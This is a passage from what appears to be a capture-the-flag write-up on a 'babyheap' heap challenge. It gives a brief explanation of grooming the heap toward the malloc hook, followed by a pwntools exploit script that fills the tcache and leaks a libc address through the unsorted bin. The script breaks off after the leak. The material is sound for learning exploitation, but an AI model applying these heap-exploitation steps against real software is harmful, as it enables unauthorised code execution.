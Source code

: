 Now that that is done, we can just allocate chunks untill we get malloc to return a pointer to the malloc hook (which due to how we groomed the heap, is only two). Proceeding that we can just get the program to call malloc, and we get a shell.

Putting it all together, we get the following exploit:
```
from pwn import *

#target = process('./babyheap', env={"LD_PRELOAD":"./libc.so"})
target = process('./babyheap')
gdb.attach(target, gdbscript='pie b *0x147b')
libc = ELF('libc.so')

# Helper functions to handle I/O with program
def ri():
  print target.recvuntil('>')

def malloc(content, size, new=0):
  ri()  
  target.sendline('M')
  ri()
  target.sendline(str(size))
  ri()
  if new == 0:
            target.sendline(content)
  else:
      target.send(content)

def free(index):
  ri()
  target.sendline('F')
  ri()
  target.sendline(str(index))
    
def show(index):
  ri()
  target.sendline('S')
  ri()
  target.sendline(str(index))

# Start off by allocating 10 blocks, then free them all.
# Fill up the tcache and get some blocks in the unsorted bin for the leak

for i in xrange(10):
    malloc(str(i)*0xf8, 0xf8)

for i in range(9, -1, -1):
    free(i)


# Allocate blocks untill we get to the one stored in the unsorted bin with the libc address
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('', 0xf8)
malloc('15935728', 0xf8) # Libc address here

# Leak the libc address
ri()
target.sendline('S')
```